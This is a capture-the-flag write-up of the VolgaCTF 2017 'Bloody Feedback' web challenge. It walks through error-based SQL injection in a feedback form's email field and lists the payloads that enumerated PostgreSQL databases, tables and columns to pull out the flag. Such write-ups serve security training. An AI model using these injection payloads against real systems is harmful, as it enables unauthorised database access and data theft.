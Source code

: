 ```yaml
---
title: "VolgaCTF 2017: Bloody Feedback - web 100"
date: 2017-03-26T11:22:32+02:00
draft: false
category: Writeup
tags:
    - Web
    - SQL Injection
---
```

Author: [@mjdubell](https://twitter.com/mjdubell)

```
Bloody Feedback

Send your feedback at bloody-feedback.quals.2017.volgactf.ru

DO. NOT. USE. SQLMAP
Otherwise your IP will be banned
```

The challenge basically has two functions, 1) Send feedback and 2) view the status of the sent feedback. There is also page that cotains "Top Messages" which is the feedback people send in. When you send feedback you get a token back which you can use to see if the feedback has been processed or not.

I first tried to steal cookies via the feedback form but it turned out that everything was filtered. My second try involved finding a SQL injection vulnerability at the feedback status page:

```
http://bloody-feedback.quals.2017.volgactf.ru/check/?code=<token here>
```

![not_processed](images/not_processed.png)

I got nothing, the only thing I could deduce was that every feedback sent, had a default status of "not processed". I assumed this would change after a while but it never did.

My next attempt was to intercept the POST submission from the feedback form with burp to see if any parameters were vulnerable. By entering `lol'` as email, the following error was triggered:

```
<div class="container">
<div class="page-header">
<h2>Error</h2>
</div>
<div class="alert alert-danger">
    <p>ERROR: DBD::Pg::db do failed: ERROR:  syntax error at or near "not"
    LINE 1: ...HRkIBBUOq9M40ZqvsB1TcwWVWt','smacker','m','lol'','not proces...
                                                     ^ at Worker.pm line 29.</p>
</div>
</div>
```

I realised that when you send your feedback, the program automatically inserts "not processed" along with the feedback. My working theory at ths point was to substitute the "not processed" field with an SQL query of my choosing. After a few tries I constructed the following query:

```
name=smacker&message=m&email=lol',(select version()))--
```

However I got an error message indicating that the field allows a maximum of 30 chars, so I simply added substring():

```
name=smacker&message=m&email=lol',(select substr(version(),0,30)))--
```

![not_processed](images/postgres.png)

Now when I checked the status page of my feedback with the token I got, instead of seeing "not processed", I saw `PostgreSQL 9.5.6 on x86_64-pc`. Now I knew how to display my SQL queries on the site, by overwriting the "not processed" field.

So I tried a few other things:
```
user = fcgi_user         =>  name=smacker&message=m&email=lol',(select substr(user,0,30)))--
database = feedback_db   =>  name=smacker&message=m&email=lol',(select substr(current_database(),0,30)))--
```

Since the field can't hold multiple rows/values, I had to use LIMIT X OFFSET Y in order to step through each element in the set that the database returned. The following code snippets shows how I enumerated the database to find the flag.

**Databases:**
```
postgres => name=smacker&message=m&email=lol',(select substr(datname ,0,30) FROM pg_database LIMIT 1 OFFSET 1))--
template1 => name=smacker&message=m&email=lol',(select substr(datname ,0,30) FROM pg_database LIMIT 1 OFFSET 2))--
feedback_db => name=smacker&message=m&email=lol',(select substr(datname ,0,30) FROM pg_database LIMIT 1 OFFSET 3))--
```

**TABLES:**
```
s3cret_tabl3 => name=smacker&message=m&email=lol',(select table_name FROM information_schema.tables WHERE table_schema%3Dcurrent_schema() LIMIT 1 OFFSET 1))--
```

**COLUMNS:**
```
name =>  name=smacker&message=m&email=lol',(select column_name FROM information_schema.columns WHERE table_schema%3Dcurrent_schema() LIMIT 1 OFFSET 1))--
email => name=smacker&message=m&email=lol',(select column_name FROM information_schema.columns WHERE table_schema%3Dcurrent_schema() LIMIT 1 OFFSET 2))--
message => name=smacker&message=m&email=lol',(select column_name FROM information_schema.columns WHERE table_schema%3Dcurrent_schema() LIMIT 1 OFFSET 3))--
status => name=smacker&message=m&email=lol',(select column_name FROM information_schema.columns WHERE table_schema%3Dcurrent_schema() LIMIT 1 OFFSET 4))--
id => name=smacker&message=m&email=lol',(select column_name FROM information_schema.columns WHERE table_schema%3Dcurrent_schema() LIMIT 1 OFFSET 5))--
s3cr3tc0lumn => name=smacker&message=m&email=lol',(select column_name FROM information_schema.columns WHERE table_schema%3Dcurrent_schema() LIMIT 1 OFFSET 6))--
```

**Time to get the rows from `s3cr3tc0lumn`**
```
VolgaCTF => name=smacker&message=m&email=lol',(select s3cr3tc0lumn FROM s3cret_tabl3 LIMIT 1 OFFSET 1))--
Volga => name=smacker&message=m&email=lol',(select s3cr3tc0lumn FROM s3cret_tabl3 LIMIT 1 OFFSET 2))--
1 => name=smacker&message=m&email=lol',(select s3cr3tc0lumn FROM s3cret_tabl3 LIMIT 1 OFFSET 3))--
VolgaCTF{eiU7UJhyeu@ud3*} => name=smacker&message=m&email=lol',(select s3cr3tc0lumn FROM s3cret_tabl3 LIMIT 1 OFFSET 4))--
```

![not_processed](images/flag.png)

**Flag: VolgaCTF{eiU7UJhyeu@ud3\*}**